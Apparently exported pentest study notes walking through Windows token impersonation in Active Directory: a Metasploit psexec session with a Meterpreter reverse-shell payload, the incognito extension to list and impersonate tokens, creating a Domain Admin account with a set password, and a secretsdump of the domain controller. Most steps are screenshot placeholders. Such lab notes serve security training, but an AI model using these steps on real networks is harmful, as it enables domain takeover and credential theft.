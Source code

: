 Token Impersonation Walkthrough

Wednesday, October 11, 2023

10:27 PM

 

> Delegate token is created when user logs in
>
>  
>
>  

-   Get Metasploit running with psexec. Use option 4 in this case.

> ![](009_Token_Impersonation_Walkthrough_000.png){width="12.354166666666666in" height="6.125in"}
>
>  
>
>  

-   Set payload to x64 reverse shell

    -   set payload windows/x64/meterpreter/reverse_tcp

>  
>
>  

-   Set all options

> ![](009_Token_Impersonation_Walkthrough_001.png){width="7.96875in" height="2.2916666666666665in"}
>
>  
>
>  
>
>  

-   Run

> ![](009_Token_Impersonation_Walkthrough_002.png){width="8.479166666666666in" height="2.6979166666666665in"}
>
> \*USER YOU ARE IMPERSONATION MUST HAVE LOGGED IN THAT SESSION FOR A TOKEN TO BE AVAILABLE\*
>
>  

-   Load incognito

> ![](009_Token_Impersonation_Walkthrough_003.png){width="4.145833333333333in" height="0.40625in"}
>
>  

-   Other extensions you can load (load and hit tab twice)

> ![](009_Token_Impersonation_Walkthrough_004.png){width="12.729166666666666in" height="2.6875in"}
>
>  
>
> ![](009_Token_Impersonation_Walkthrough_005.png){width="6.552083333333333in" height="2.5416666666666665in"}
>
>  

-   List_tokens -u

> ![](009_Token_Impersonation_Walkthrough_006.png){width="3.8229166666666665in" height="2.6666666666666665in"}
>
>  

-   Impersonate_token

> ![](009_Token_Impersonation_Walkthrough_007.png){width="5.15625in" height="0.9479166666666666in"}
>
>  

-   Enter a shell and confirm

> ![](009_Token_Impersonation_Walkthrough_008.png){width="4.59375in" height="1.96875in"}
>
>  

-   Rev2self command to exit impersonate token

> ![](009_Token_Impersonation_Walkthrough_009.png){width="3.0416666666666665in" height="0.96875in"}
>
>  

-   One more time as Domain Admin

> ![](009_Token_Impersonation_Walkthrough_010.png){width="6.1875in" height="5.90625in"}
>
>  

-   Adding a user to domain for proof of concept -hawkeye Password1@

> ![](009_Token_Impersonation_Walkthrough_011.png){width="7.125in" height="2.1041666666666665in"}
>
>  

-   Add hawkeye to Domain Admins group

> ![](009_Token_Impersonation_Walkthrough_012.png){width="6.9375in" height="1.5625in"}
>
>  
>
>  

-   Secretsdump the domain controller with new creds as proof of concept

> ![](009_Token_Impersonation_Walkthrough_013.png){width="12.21875in" height="9.572916666666666in"}

ev

